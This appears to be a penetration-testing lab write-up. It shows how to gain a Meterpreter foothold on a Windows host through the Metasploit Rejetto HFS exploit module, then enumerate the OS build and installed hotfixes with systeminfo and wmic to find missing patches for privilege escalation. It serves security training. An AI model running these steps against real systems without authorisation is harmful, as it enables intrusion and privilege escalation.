# Enumerating System Information (Windows)

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Windows host (Meterpreter via Rejetto HFS)

## 1. Executive Summary

After exploiting **Rejetto HFS**, we profile the Windows host — OS version/build, installed
hotfixes and updates — focusing on **missing security patches** that enable kernel/privilege
escalation (feeding tools like Windows-Exploit-Suggester).

## 2. Foothold

```bash
ping -c 4 <target>
db_nmap -sV <target>
use exploit/windows/http/rejetto_hfs_exec
exploit
```












## 3. System Information

```bash
sysinfo
```



```cmd
shell
hostname
```



```cmd
systeminfo
```







## 4. Installed Updates (hotfixes)

```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Focus on entries described as **Security Update** — gaps indicate exploitable CVEs.



## 5. OS Hints

```cmd
type C:\eula.txt     # not present here
```



## 6. Notes

The `systeminfo` output (OS build + hotfix list) is exactly what Windows-Exploit-Suggester
needs to match the host against known privilege-escalation exploits.
